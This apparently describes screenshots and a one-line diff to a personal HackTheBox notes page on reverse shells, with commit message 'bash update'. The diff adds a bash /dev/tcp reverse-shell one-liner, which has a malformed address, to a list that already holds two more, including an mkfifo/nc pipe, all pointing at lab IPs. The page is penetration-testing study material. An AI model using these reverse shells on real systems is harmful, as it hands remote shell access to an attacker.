

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md, in a window 1280 px wide and 900 px high, scrolled down 518 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
bash update

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/Shells/Reverse_Shells.md
@@ -30,6 +30,7 @@
 
 #### BASH
 ```bash
+\"bash -c 'bash -i >& /dev/tcp/10.10.14.213:9001 0>&1'\"
 bash -i >& /dev/tcp/10.10.14.140/8080 0>&1
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
 ```
````
